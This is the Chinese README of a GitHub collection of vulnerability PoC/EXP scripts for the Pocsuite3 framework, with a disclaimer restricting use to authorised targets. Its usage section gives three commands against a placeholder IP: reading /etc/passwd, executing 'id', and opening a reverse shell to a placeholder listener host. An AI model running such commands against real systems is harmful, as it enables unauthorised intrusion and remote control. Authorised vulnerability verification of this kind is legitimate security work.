 # PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目主要用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证主要使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员

Github地址 : https://github.com/knownsec/pocsuite3

![](image/image-1.png)

## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

## 公众号

![](image/image-2.png)

## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```
![](image/image-3.png)

```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```
![](image/image-4.png)

```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```
![](image/image-5.png)

## 最后

> 别忘了Github下载完给个小星星⭐

[![Stargazers over time](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3.svg)](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

